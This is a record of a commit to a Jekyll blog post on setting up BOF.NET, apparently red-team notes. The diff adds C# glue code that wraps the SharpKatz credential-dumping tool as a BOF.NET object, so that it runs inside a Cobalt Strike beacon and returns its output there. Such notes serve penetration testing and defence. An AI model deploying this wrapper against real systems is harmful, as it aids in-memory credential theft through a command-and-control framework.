

Before and after one commit to suldod/suldod.github.io.bak, a Jekyll site: the page built from _posts/2021-11-16-Setting-Up-BOF-NET.md, in a window 1280 px wide and 1400 px high, scrolled down 379 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Update 2021-11-16-Setting-Up-BOF-NET.md

````diff
--- a/_posts/2021-11-16-Setting-Up-BOF-NET.md
+++ b/_posts/2021-11-16-Setting-Up-BOF-NET.md
@@ -17,4 +17,44 @@ Source : [https://github.com/CCob/BOF.NET](https://github.com/CCob/BOF.NET)
 
 ## Importing BOF.NET to Cobalt Strike
 
-## Porting BOF.NET Classes to SafetyKatz
+## Porting BOF.NET Classes to SharpKatz
+
+```C#
+using System;
+using System.Collections.Generic;
+using System.IO;
+using System.Linq;
+using System.Text;
+using BOFNET;
+
+namespace SharpKatz
+{
+    public class Execute : BeaconObject
+    {
+        public Execute(BeaconApi api) : base(api) { }
+        public override void Go(string[] args)
+        {
+            try
+            {
+                // Redirect stdout to MemoryStream
+                var memStream = new MemoryStream();
+                var memStreamWriter = new StreamWriter(memStream);
+                memStreamWriter.AutoFlush = true;
+                Console.SetOut(memStreamWriter);
+                Console.SetError(memStreamWriter);
+
+                // Run main program passing original arguments
+                Program.Main(args);
+
+                // Write MemoryStream to Beacon output
+                BeaconConsole.WriteLine(Encoding.ASCII.GetString(memStream.ToArray()));
+
+            }
+            catch (Exception ex)
+            {
+                BeaconConsole.WriteLine(String.Format("\nBOF.NET Exception: {0}.", ex));
+            }
+        }
+    }
+}
+```
````
